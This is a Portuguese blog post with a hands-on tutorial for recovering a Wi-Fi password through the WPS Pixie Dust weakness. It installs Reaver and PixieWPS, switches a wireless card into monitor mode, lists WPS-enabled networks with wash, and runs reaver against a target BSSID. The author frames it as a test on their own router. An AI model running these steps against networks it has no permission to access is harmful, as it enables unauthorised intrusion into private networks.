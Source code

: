 ```yaml
---
layout: post
title:  "Explorando a vulnerabilidade do WPS"
date:   2019-03-11 22:50:00 -0300
---
```




Neste post, vou mostrar como realizar um teste de segurança em redes sem fio, que possuam o WPS ativo. Alguns roteadores possuem uma vulnerabilidade que nos permite realizar um ataque de brute force para encontrar o PIN WPS, uma vez identificado o PIN, é feita a autenticação e o roteador fornece a senha da rede wireless. Para realizar o teste, utilizei meu roteador e criei uma rede apenas para este fim, sendo que, realizar este procedimento em redes alheias não é permitido por lei, muito cuidado com isso!

Para realizar esse teste, configurei o seguinte ambiente:

[Linux Mint 18](https://www.linuxmint.com/)

[PixieWPS](https://github.com/wiire/pixiewps)

[Reaver-wps-fork-t6x](https://github.com/t6x/reaver-wps-fork-t6x)

Bem, para começar, presumo que já esteja com o Mint instalado, então, pode começar a instalar as dependências para o Reaver e PixieWPS.

Instale os seguintes pacotes:

	# apt-get -y install build-essential libpcap-dev aircrack-ng

Depois de instalados os pacotes acima, pode instalar o Reaver e PixieWPS.

### PixieWPS  
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/wiire/pixiewps

ou

	$ wget https://github.com/wiire/pixiewps/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd pixiewps*/
	$ cd src/
	$ make
	$ sudo make install

### Reaver
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/t6x/reaver-wps-fork-t6x

ou

	$ wget https://github.com/t6x/reaver-wps-fork-t6x/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd reaver-wps-fork-t6x*/
	$ cd src/
	$ ./configure
	$ make
	$ sudo make install

Pronto!

---

### Configurações e execução
Agora Vamos alterar o modo de funcionamento da interface wireless.

É necessário identificar a interface wireless, para isso, basta usar o comando:

	$ iwconfig

<!-- ![wlp6s0](/assets/images/1.png "wlp6s0")
 -->
 <figure>
  <img src="{{site.url}}/assets/images/1.png" alt=" "/>
  <figcaption style="display: block; text-align: center;">Neste caso, temos a wlp6s0 como interface wireless.</figcaption>
</figure>

Após identificar a interface wireless, altere o modo de funcionamento para o modo “Monitor”, para isso utilize o comando:

	# airmon-ng start wlp6s0

<figure>
  <img src="{{site.url}}/assets/images/2.png" alt=" "/>
</figure>

Na saída do comando acima, esta descrito entre parenteses a informação de que foi habilitado o modo monitor na interface virtual “mon0”. Além disso, foram encontrados 5 processos que podem causar algum bug ao utilizar a interface em modo monitor, para garantir que não terá nenhum problema, esses processos devem ser encerrados, para isso basta usar o comando kill, seguido dos PID’s dos processos listados.

	# kill 897 898 958 1192 1273

Agora desabilite a interface wireless “wlp6s0”, para que não haja problemas ao identificar a rede alvo, com o comando:

	# ifconfig wlp6s0 down

<figure>
  <img src="{{site.url}}/assets/images/3.png" alt=" "/>
</figure>

Após ter encerrado os processos que podem causar problemas no funcionamento do airmon-ng e desabilitar a interface wireless que não será utilizada, vamos ao próximo passo, localizar a rede alvo. Para isso, utilize o comando “wash” que lista somente redes com WPS ativo.

	# wash -i mon0

<figure>
  <img src="{{site.url}}/assets/images/4.png" alt=" "/>
</figure>

Identificada a rede alvo, passe os parâmetros necessários para executar o Reaver e PixieWPS, com o seguinte comando:

	# reaver -i mon0 -b E8:CC:18:BE:01:AC -c 6 -vvv -K 1

<figure>
  <img src="{{site.url}}/assets/images/5.png" alt=" "/>
</figure>

Os parâmetros passados foram: -i {interface wireless} -b {MAC Adress alvo} -c {Canal de trasmissão}. Os dois últimos, são “-vvv” para ativar o modo verbose, para exibir todas as mensagens de cada etapa do processo e -K 1 que faz com que o Reaver passe os dados referentes ao PKE, PKR, e-hash1 e e-hash2 automaticamente, o pixieWPS fará um brute force “off-line”, evitando que o roteador alvo, bloqueie a conexão por meio do WPS após algumas tentativas, dessa forma serão testados todos os PIN’s. Por rodar o brute force com os dados coletados pelo Reaver, não há necessidade de a cada tentativa fazer a comunicação com o alvo, reduzindo drasticamente o tempo necessário para que o PIN seja encontrado, o tempo necessário em média, não supera os 30 minutos, porém a depender da capacidade de processamento do seu computador, esse tempo pode variar.

Vale lembrar que não são todos os roteadores que possuem essa vulnerabilidade, neste link, há uma lista de dispositivos vulneráveis. Outras distribuições Debian Based são compatíveis com esse tutorial.

P.S.: Realizei esse teste num roteador de minha propriedade, configurado para este fim. Não utilizem este conhecimento para testar em redes na quais não tenham autorização para tal.